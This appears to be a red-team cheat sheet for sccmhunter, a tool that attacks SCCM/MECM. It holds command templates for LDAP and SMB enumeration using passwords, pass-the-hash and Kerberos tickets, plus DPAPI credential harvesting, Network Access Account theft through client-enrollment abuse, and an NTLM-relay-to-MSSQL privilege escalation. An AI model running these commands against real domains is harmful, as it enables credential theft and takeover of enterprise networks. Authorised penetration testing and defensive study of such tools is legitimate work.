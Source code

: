 # sccmhunter

% sccm, mecm
#plateform/linux  #target/remote #cat/RECON 

## _url
```
https://github.com/garrettfoster13/sccmhunter
```

## desc
```
.sccmhunter/logs/db/find.db
to install set dependencies on last version (i.e remove version in requirements.txt)
```

## _links
```
https://github.com/garrettfoster13/sccmhunter/wiki
```

##  enum - ldap (creds)
```bash
python3 sccmhunter.py find -debug  -u <user> -p <password> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

##  enum - ldap (pth)
```bash
python3 sccmhunter.py find -debug  -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

##  enum - ldap (ptt)
```bash
KRB5CCNAME=<ccache>  python3 sccmhunter.py find -debug  -u <user> -no-pass -k -d <domain_fqdn> -dc-ip <dc_fqdn>
```

## enum - smb (creds)
```bash
python3 sccmhunter.py smb -debug  -u <user> -p <password> -d <domain_fqdn> -save -dc-ip <dc_fqdn>
```

## show - all
```bash
python3 sccmhunter.py show  -all
```


#cat/ATTACK 

## harvest creds - DPAPI (cred local admin)
```bash
python3 sccmhunter.py dpapi -debug  -u <user>  -p '<password>' -target <target_ip>
```


## harvest creds - DPAPI (pth local admin)
```bash
python3 sccmhunter.py dpapi -debug  -u <user>  -hashes :<nt_hash> -target <target_ip>
```

## harvest naa - http (abuse client enrollment)
```bash
python3 sccmhunter.py http -debug  -u <user> -p '<password>' -d <domain_fqdn> -mp <sccm_fqdn> -dc-ip <dc_fqdn> -sleep <sleep|10> -auto
```

## privesc - ntlmrelay to mssql helper
```bash
python3 sccmhunter.py mssql -stacked -d <domain_fqdn -dc-ip <dc_fqdn> -tu <target_user> -sc <sccm_site_code> -u <user> -p '<password>'
```

#cat/POST


## admin - connect
```bash
python3 sccmhunter.py admin -debug  -u <user> -p <password> -ip <site_server_target>
```